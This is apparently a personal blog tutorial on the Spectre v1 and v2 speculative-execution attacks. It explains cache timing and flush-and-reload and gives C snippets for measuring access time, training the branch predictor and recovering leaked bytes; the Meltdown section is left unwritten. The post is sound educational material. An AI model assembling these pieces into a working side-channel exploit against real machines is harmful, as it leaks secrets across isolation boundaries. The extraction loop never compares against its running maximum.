

+++
date = '2025-08-18T10:24:19+05:30'
draft = false 
title = 'Spectre and Meltdown'
+++

# Spectre and Meltdown 

You might have heard of Spectre and Meltdown back in 2018... although I was able to understand the vulnerability and why it worked, my search for an implementation of it along with a proper explanation eluded me. So I decided to write one myself. 

# What is Spectre? 

Spectre tricks a completely error-free program into leaking its secrets. 

# What is Meltdown? 

Meltdown breaks the process isolation between user applications and the operating system, allowing you to leak memory of any other process.

# Your life is a lie 

Let's first break some assumptions that you might have had about the way assembly instructions are executed on the CPU. 

- The CPU does not execute instructions in order. It can "speculate" and guess which branch might be taken and execute it ahead of time. 
- Instructions are fetched and decoded to micro-operations(μOPs), These micro-operations operate on "virtual" registers, and the result is only written to the real register afterwards. 
- Memory access does not always go to the main memory, i.e, the RAM. It is first checked in the CPU cache. 


# CPUs are fast... really fast 

Modern CPUs can often process billions of instructions in a seconds. Compared to the speed at which a CPU can execute instructions... fetching memory is way slower.

So the CPU has a lot of optmizations that ensure that it is not idle when an instruction requires memory to be fetched or written. The important ones for this exploit are:

- **Speculative Execution:**  If the CPU encounters a branch, say an `if` statement. It doesn't wait for the evaluation of the condition. It tries to guess the correct path using sosmething called the branch predictor... It saves a lot of time when its right,if not, it just restores the CPU state. 

- **Out of Order Execution:** The CPU executes instructions as soon as the data required for the instructions are ready and does not wait for the previous instruction to finish. This ties into the micro-operations that I mentioned earlier.


# Cache as a side channel!?? 

When a memory address is accessed for the first time, it is placed in the cache. When the same memory addressis accessed again, it is fetched from the cache directly. There is a noticable time difference when you compare the time taken to fetch the address from cache compared to fetching from the RAM.

```
      CPU
       |
       v
check cache for address (takes less time if find)
       |
       v
Go to RAM if not found (place that value in cache for later use)
```

This is essentially a side channel that can be used to determine if the victim process accessed some memory address. That's cool, but how do we actually exfiltrate data?. 
Before we get to that, let's look at how to time the cache.

We are going to have to use some instructions that can influence CPU behaviour for this to work.

- `_mm_lfence` - waits for memory loads to be completed.
- `_mm_sfence` - waits for memory stores to be completed. 
- `_mm_mfence` - waits for all memory operations to be completed. 
- `__rdtsc` - read the processor time-stamp (By calling __rdtsc() before and after a section of code, the difference in the returned values estimates the number of CPU cycles consumed).
- `_mm_clfush()` - flushes the CPU cache line, essentially removing the provided memory from the cache.

# Flush and reload 

- First, we clear the cache line of the memory. 
- We then let the victim program run. 
- We can then check the time taken to access the memory, if it's low... we can infer that it was accessed by the victim.

We will use the following function to time our access. We add a `_mm_mfence()` to ensure memory access is completed to get a more accurate reading.

## measure access time function
```
uint64_t measure_access_time(void *addr) {
    volatile uint64_t start, end;
    _mm_mfence();
    start = __rdtsc();
    volatile int value = *(volatile int *)addr;
    _mm_mfence();
    end = __rdtsc();
    return (end - start);
}
```

Now let's see the difference between a cache hit and a cache miss.

```
#include <stdio.h>
#include <stdint.h>
#include <x86intrin.h> /* Required for _mm_clflush and __rdtscp */

int target_data = 1337;


int main() {
    _mm_clflush(&target_data);
    uint64_t miss_latency = measure_access_time(&target_data);
    printf("[Uncached] Time to access data from RAM:   %lu cycles\n", miss_latency);
    // after the first cache miss, the memory should now be in the cache
    uint64_t hit_latency = measure_access_time(&target_data);
    printf("[Cached]   Time to access data from Cache: %lu cycles\n", hit_latency);
    return 0;
}
```

## The output

```
Run 1:
[Uncached] Time to access data from RAM:   236 cycles
[Cached]   Time to access data from Cache: 80 cycles

Run 2:
[Uncached] Time to access data from RAM:   208 cycles
[Cached]   Time to access data from Cache: 104 cycles

Run 3:
[Uncached] Time to access data from RAM:   216 cycles
[Cached]   Time to access data from Cache: 112 cycles

Run 4:
[Uncached] Time to access data from RAM:   224 cycles
[Cached]   Time to access data from Cache: 100 cycles

```

We can clearly that it takes almost double the time to access memory that is not in the cache. 

## How do we actually use this information?

- We know that if a victim accesses some address, we can leak it using flush and reload. 
- Now we create a memory region that consists of 256 pages, each page corresponding to a byte. 
- We then let the victim access a specific page(a page is just 0x1000 bytes of memory) based on the secret byte we want.
- For example, if the secret was 'c', it would access page 99(ascii for 'c'). 
- We can then time the access to see which page was accessed by the victim.
- We then flush all pages from the cache and repeat the process for the next byte.

# The branch predictor

Consider the following code snippet, where x is user-controllede input.

```
int array1_size = 1;
char *array1 = "flag{secret}";
if (x < array1_size){
    y = array2[array1[x] * 4096];
}else{
    y = 0;
}
```

- We will set the array1_size to 1 to simulate a out-of-bounds access.
- to simply this attack, we shall consider array1 to be the secret we want to leak.
- array2 is 1MB of mapped memory (256 pages of 4096 bytes each).

Assume that x contains user-controlled data,To ensure that we access memory. 

We can leak the first byte of the secret by setting x to 0(in bounds) and then performing a flush and reload. What about the rest? We would need to access memory that is out of bounds due to the constraints of the program.

This is where the branch predictor comes in. Before the result of the bounds check is known, the CPU uses the branch predictor to guess the most probable branch and executes it speculatively. Overall, guessing the branch to be taken leads to faster execution times. 

But what if the branch predictor is wrong? The CPU will then restore the state to before the speculative instructions executed, **but** it does not clear the cache, meaning that the address that was accessed speculatively is still in the cache.


# Fooling the branch predictor

We can essentially fool the branch predictor by giving it a valid index multiple times. The branch predictor then goes: "Hey, this branch was taken 10 times, surely it will be taken this time too!" and it speculatively executes the branch. 



So esentially our exploit becomes
- train the branch predictor with a valid index. 
- provide an invalid index, but it will still be speculatively executed.
- measure the access time taken for each index in our mapped memory. 
- and voila, you have your secret.

## Training the branch predictor 

```
for(int t=0;t<TRAIN_ROUNDS;t++){
    x = 1;
    _mm_mfence();
    access_array(x);
    _mm_mfence();
}
```

Once we train the branch predictor, we can then provide our invalid index.

```
 for(int r=0;r<ATTACK_ROUNDS;r++){
    for(int i=0;i<256;i++){
        _mm_clflush(&mapped_mem[i * PAGE_SIZE]); // flush the cache line to remove previous entries.
    }
    _mm_mfence();
    x = invalid_index;
    _mm_mfence();
    access_array(x);
 }
 ```


## extracting the leaked byte

```
 for(int i=0;i<256;i++){
    int mix_i = ((i * 167) + 13) & 255; // prevent CPU from pre-fetching the counter and messing up our results.
    uint64_t time = time_access(&mapped_mem[mix_i * PAGE_SIZE]);
    if(time < 150 ){
        stats[mix_i]++;
    }
}
int max = 0;
int leaked = 0;
for(int i=32;i<256;i++){ // only consider valid ascii, hence the 32 starting range.
if(stats[i]){
    max = stats[i];
    leaked = i;
    }
}
```

This is essentially what is known as a **spectre v1** attack. Putting all the pieces together, you can run the exploit yourself on a vulnerabile CPU(I highly recommend doing the pwn.college module).

## Spectre v2

Spectre v2 is really similar to v1, but instead of a branch predictor, we fool an indirect branch instruction. For example, 
```
call rax
```
where rax is calculated during runtime. This requires you to find a spectre gadget, which is essentially 
```
y = array2[array1[x] * 4096];
```

Now you follow the same steps as v1, and you can leak the secret.

This type of indirect branching is commonly seen when using function pointers that are resolved at runtime.

# Meltdown 

soon... 

This is a combination of the content taught at [pwn.college's microarchitecture exploitation module](https://pwn.college/system-security/speculative-execution/) and the [actual papers that were released](https://spectreattack.com/). I highly recommend that you try the challenges and read the papers for yourself. 